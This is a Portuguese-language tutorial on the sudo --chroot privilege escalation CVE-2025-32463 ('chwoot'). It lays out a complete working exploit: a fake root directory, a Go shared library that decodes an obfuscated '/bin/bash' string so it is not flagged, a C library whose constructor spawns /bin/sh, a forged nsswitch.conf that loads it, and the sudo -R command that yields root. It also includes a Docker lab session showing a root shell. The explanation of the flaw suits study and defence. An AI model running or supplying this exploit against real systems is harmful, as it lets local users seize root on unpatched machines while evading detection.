


# CVE 2025-32463: Privilege Escalation no sudo -R

Olá, eu sou hoWo e nesse paper aborderamos as nuances da CVE 2025-32463 (também conhecida como "CHWOOT")

## Exemplo

Para começar, entenderemos o que é a vulnerabilidade.
Ela ocorre entre as versões 1.9.14 (inclusa) até a 1.9.17 (inclusa), sendo corrigida na versão 1.9.17p1
A vulnerabilidade consiste em:

Criar um temp dir (mkdir) que segue a estrutura:
```anot_estrutura
  /tmp/woot
  -> /tmp/woot/etc
     -> /tmp/woot/etc/nsswitch.conf

  -> /tmp/woot/lib
     -> /tmp/woot/lib/woot.so

```

Claro que não basta apenas sair criando diretórios, temos que seguir um fluxo:

### 1. ***Vamos criar nosso ambiente para executar o exploit*:**

```bash
mkdir -p /tmp/woot/etc
mkdir -p /tmp/woot/lib

```

Explicando rapidamente, utilizamos o mkdir para criar um diretório temporário, em `/tmp`. 
A flag `-p` serve para não termos que diretamente criar o `/tmp/woot` e criar o `./etc` e `./lib`, a flag `-p` cria o `/tmp/woot` automaticamente para que possamos focar em criar os sub-diretórios.
Perceba que criamos `/etc` e `/lib`, simulando um diretório raiz do linux.

### 2. ***Criaremos agora o módulo malicioso*:**

Geralmente criamos esse tipo de coisa em C ou C++, mas eu sou skid então vou utilizar go.

```go
package main

import (
	"C" // a lib "C" nos permite criar o .so (utilizando cgo), e exportar com //export funcname
	"os/exec"
	"strings"

)

var s string = "/ckq3ggzp"
var ss []string

//export Init
func Init() {
    for i, v := range s {
	    ss = append(ss, string([]rune{v + rune(i)}))

    }

    c := exec.Command(strings.Join(ss, ""))
	c.Run()
	
}

func main() {}

```

Precisaremos também compilar (e mover) a nossa lib maliciosa:

```bash
go build -o woot.so -buildmode=c-shared main.go
mv woot.so /tmp/woot/lib/woot.so

```

Nesse exemplo temos ofuscação simples (para não levar flag por uma string `"/bin/bash"`).
Como prometi, a segui um exemplo em C (gerado por IA):

```C
#include <stdio.h>
#include <stdlib.h>

// A função __attribute__((constructor)) garante que 'init'
// seja executada automaticamente quando a biblioteca for carregada.
void __attribute__((constructor)) init()
{
    // Executa um shell /bin/sh com os privilégios do processo pai.
    // Se o processo pai for root (como o sudo comprometido),
    // você ganha um shell de root.
    system("/bin/sh");

}

```

E para compilar:

```bash
gcc -shared -fPIC -o woot.so woot.c
mv woot.so /tmp/woot/lib/woot.so

```

### 3. ***Criaremos o nsswitch.conf falso*:**

Precisamos falar para o sistema que ele deve rodar nossa lib maliciosa, mas como fazemos isso??
Simples, basta manipular o nsswitch, no nosso caso vamos criar um falso no nosso ambiente temporário.

Basta que rodemos:

```bash
echo "hosts: files nis [NOTFOUND=return] dns" > /tmp/woot/etc/nsswitch.conf
echo "passwd files /lib/woot" >> /tmp/woot/etc/nsswitch.conf

```

O que fizemos? Primeiro adicionamos a linha: `hosts: files ...`, que é apenas a funcionalidade mínima/disfarçe para que o nsswitch funcione minimamente.
Então nós adicionamos `passwd files /lib/woot` no final do arquivo, essa é a parte crítica, aqui que nós chamamos a lib maliciosa.

### 4. ***Rodar o exploit*:**

Após todos os passos, o setup para que nós rodemos o exploit, está pronto!
Basta testar:

```bash
sudo -R /tmp/woot /usr/bin/id

```

ou

```bash
sudo --chroot /tmp/woot /usr/bin/id

```

E pronto, temos acesso root ao sistema alvo!
Quando rodamos o comando, o sudo tenta resolver info do user atual (`passwd`) e lerá o `nsswitch.conf` manipulado, que vai carregar a `/tmp/woot.so`.

## Como funciona??

### Entenda o `sudoedit` e `-R`

Para entender a vulnerabilidade em si, primeiro vamos entender como o `sudo` deveria ser utilizado normalmente, como o escopo vulnerável funciona em casos normais.

***sudoedit*:**

O `sudoedit` é uma ferramenta do `sudo` que serve para modificar arquivos mesmo que não tenhamos permissão para isso, só que de uma forma segura.
O processo é assim:



***--chroot ou -R*:**

A flag `-R` (ou `--chroot`) é uma opção que roda seu comando/binário dentro de um ambiente `chroot` (change root). Basicamente, isso diz para o comando executado, que o `/` (root) é o diretório que você fornecer. O objetivo legítimo era isolar o processo, por motivos de segurança.
Ele funciona desse jeito:



---

### Erro de lógica = vulnerabilidade

O problema de CVE é que o `sudo` (mais especificamente o `sudoedit` + `--chroot`/`-R`) tem um erro na lógica que prepara o ambiente _antes_ de realmente mudar a raiz.
Quando o `sudoedit` é chamado junto com o `-R` ou `--chroot`, ele tem que garantir que o ambiente estará compatível com o editor e com outras dependências. Isso inclui garantir que libs e arquivos de configuração estejam disponíveis dentro do ambiente.

### Como a escalada de privilégios funciona

São vários fatores, e aqui vão os principais:

1. ***Pré-config do env*:** O `sudo` começa a configurar o ambiente isolado, ele tem que garantir que componentes/libs essenciais estejam disponíveis.
O NSS é responsável pela resolução de: informações como nomes de users, groups e hosts, e ele faz isso com libs dinâmicas (`.so`) que estão no `/etc/nsswitch.conf`.

2. ***Carga de libs fora do sandbox completo*:** A parte crítica é que durante a pré-configuração do ambiente, o `sudo` (que já roda com privilégios do superusuário) não está "totalmente preso" ao ambiente isolado.
Ele lê o nosso `nsswitch.conf` e carrega as libs NSS do diretório que o atacante forneceu.

3. ***Má interpretação/resolução de nomes*:** Se um user mal-intencionado prepara um ambiente falso contendo o `/etc/nsswitch.conf` manipulado, esse arquivo pode ter (e provavelmente vai ter) uma configuração forjada (e.g.: na resolução do `passwd` podemos indicar uma lib `.so` que executa algo com permissão de root).

4. ***Execução de código arbitrário*:** Quando o `sudo` tenta resolver qualquer informação dependente do NSS, ele lê o `nsswitch.conf` falso e pode executar, com privilégios elevados, uma lib maliciosa, que pode rodar um binário com o mesmo privilégio elevado.

TL;DR

Basicamente, o `sudo` é "enganado" para carregar e executar uma biblioteca maliciosa com privilégios elevados, mas antes de "entrar completamente" no ambiente.

## Como você pode testar isso?

Aposto 15 kwanzas que você quer testar por conta o CVE 2025-32463, e é isso que vamos fazer agora.

### Clonando o repositório

Não vamos executar o PoC no nosso dispositivo, para isso, vamos utilizar uma máquina (docker) disponível no repositório abaixo:

```bash
git clone https://github.com/pr0v3rbs/CVE-2025-32463_chwoot.git

```

### Entrando no ambiente

Nosso querido pr0v3rbs fez um Dockerfile com uma máquina vulnerável ao CHWOOT, basta que rodemos o run.sh

```bash
cd CVE-2025-32463_chwoot
./run.sh

```

### Testando

Para não termos o trabalho, a máquina já vem com um .sh que faz tudo que ensinei no exemplo, de forma simples, apenas rodamos o .sh e temos acesso root!

```
pwn@f151c56ac100:~$ whoami;groups
pwn
pwn
pwn@f151c56ac100:~$ ./sudo-chwoot.sh 
woot!
root@f151c56ac100:/# whoami;groups
root
root pwn
root@f151c56ac100:/# 

```

## Conclusão

Nesse paper, entendemos como escalar privilégios de maneira até que simples, sem muito esforço, apenas explorando uma vulnerabilidade.
Caso você fique com qualquer dúvida, sinta-se livre para me contactar no discord: `altof_howosec`!

----------

> Refs:
[NVD](https://nvd.nist.gov/vuln/detail/cve-2025-32463)
[Adapta ONE](https://adapta.org/)
[pr0v3rbs](https://github.com/pr0v3rbs/CVE-2025-32463_chwoot)
Todo o texto é de minha autoria, todos os mermaids foram gerados por IA.

